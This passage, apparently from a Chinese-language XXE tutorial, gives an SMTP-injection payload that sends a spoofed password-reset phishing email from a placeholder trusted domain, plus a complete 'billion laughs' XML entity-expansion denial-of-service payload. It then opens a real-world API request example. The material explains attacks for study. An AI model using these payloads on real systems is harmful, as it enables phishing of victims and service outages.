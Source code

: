 ```javascript
ftp://a
EHLO a
MAIL FROM: <support@VULNERABLESYSTEM.com>
RCPT TO: <victim@gmail.com>
DATA
From: support@VULNERABLESYSTEM.com
To: victim@gmail.com
Subject: Reset your password
We need to confirm your identity. Confirm your password here: http://PHISHING_URL.com
.
QUIT
:support@VULNERABLESYSTEM.com:25

```

复制

这意味着攻击者可以从从受信任的来源发送钓鱼邮件（例如：帐户重置链接）并绕过垃圾邮件过滤器的检测。除了链接之外，甚至我们也可以发送附件

##### （8）DOS 攻击

示例代码：

```javascript


<?xml version="1.0"?>
     <!DOCTYPE lolz [
     <!ENTITY lol "lol">
     <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
     <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
     <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
     <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
     <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
     <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
     <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
     <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
     ]>
     <lolz>&lol9;</lolz>
```

复制

### 4、现实场景

XXE经常就出现在 api 接口能解析客户端传过来的 xml 代码，并且直接外部实体的引用

##### 原始请求和响应

HTTP Request:

```javascript
POST /netspi HTTP/1.1
Host: someserver.netspi.com
Accept: application/json
Content-Type: application/json
Content-Length: 38

{"search":"name","value":"netspitest"}
```
